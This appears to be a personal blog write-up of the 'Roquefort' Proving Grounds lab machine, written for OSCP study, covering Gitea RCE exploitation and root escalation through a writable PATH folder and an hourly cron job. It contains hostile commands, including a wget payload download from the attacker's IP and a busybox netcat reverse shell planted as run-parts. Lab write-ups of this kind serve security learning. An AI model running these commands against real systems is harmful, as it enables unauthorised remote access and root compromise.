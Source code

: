 ```yaml
---
layout: writeup
title: Roquefort - Proving Grounds
date: 2024-07-24 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Gitea]
---
```


Here's a writeup for Roquefort, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:
```
21/tcp   open   ftp
22/tcp   open   ssh
53/tcp   closed domain
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

That only gives us a few options. I can't login to FTP with anonymous, and nothing shows in the URL when we visit $IP:2222. We do get a page for something called `Gitea` when we visit $IP:3000.

![Roquefort1.png](/assets/images/Roquefort/Roquefort1.png){: .responsive-image}


The bottom of the page shows we are working with `Gitea Version 1.7.5`, so maybe we can get somewhere with that. I run a directory scan in the background as well. We also see an RCE for this version in [exploit-db](https://www.exploit-db.com/exploits/49383). Unfortunately, it requires us to authenticate, but there is a Register link, so maybe we just create our own user and run it. I use `pop:party1` and edit the exploit like this: 

![Roquefort2.png](/assets/images/Roquefort/Roquefort2.png){: .responsive-image}


Unfortunately I get an error when executing the exploit, and it doesn't even reach my python server. I try a few different port configurations, but I can't ever get a response, and I note that there could be difficulties with this exploit if there is a firewall only allowing access from port 3000. In retrospect, the issue seems to be that this full command requires three ports - the HOST_PORT, the server port, and the shell listener - but it seems like the firewall may only allow traffic from ports 21 and 3000. I'm not positive, but I did eventually get a shell afterwards by splitting the CMD up and running twice:

1. Once with `HOST_PORT = 3000` and `CMD = 'wget http://192.168.45.183:21/shell3000.sh -O /tmp/shell && chmod 777 /tmp/shell`
2. And again with `HOST_PORT = 21` and `CMD = '/tmp/shell` with a shell listener over 3000. 

But I figured that out purely out of curiosity after I got a shell using another [exploit](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) and got it working with this command:

`python3 CVE-2020-14144-GiTea-git-hooks-rce.py -t http://192.168.182.67:3000 -u pop -p party1 -I 192.168.45.183 -P 3000`

And I can catch a shell on my penelope listener. 

![Roquefort3.png] (/assets/images/Roquefort/Roquefort3.png){: .center-aligned width="600px"}

At this point we begin our enumeration process and go through a fw things before running linpeas. Reading the output shows a few of these RED/YELLOW highlights said to be "95% a PE vector", and they all have to do with this writable folder. 

![Roquefort4.png](/assets/images/Roquefort/Roquefort4.png){: .responsive-image}


Because this folder is in the PATH, we should be able to write something here and have it be executed by root. Usually the way I've seen this done is through a cron job - you put a malicious file in the path, and then it's executed by whoever is running the cron job. In this case, it doesn't seem like there are any. I got stuck here for a few hours, trying to find something running periodically or a way I could use one of the few binaries with SUID permissions to execute something from within this path, but I couldn't find anything. Any examples I found online required me to have some step I couldn't replicate. I also moved `gitea`  the only binary already in the `/usr/local/bin` folder to my machine and tried to analyze it, looking for any other binaries within where I might be able to modify the path. So after a few hours, I looked for a hint, which pointed me to this:

![Roquefort5.png](/assets/images/Roquefort/Roquefort5.png){: .responsive-image}

It's something I'd seen previously and ignored. There *is* a cron job running, but it (`run-parts`) runs *hourly*. I've never seen that in a lab and to be honest, explicitly understood to be out of the scope of the OSCP, which I am studying for. Usually cron jobs used in privesc for this kind of lab runs every few minutes to minimize the time spent waiting. Lessons learned, I guess. At this point I create a reverse shell in the path by running `echo 'busybox nc 192.168.45.183 21 -e /bin/bash' > run-parts` from within /usr/local/bin and then `chmod 777 run-parts`, setting up the shell on port 21 and waiting. 

![Roquefort6.png](/assets/images/Roquefort/Roquefort6.png){: .responsive-image}

Boom, done. Lessons learned - cron jobs aren't limited to every few minutes for labs. Check that exploits found online use ports that aren't blocked by a firewall in the given lab environment. On to the next one. 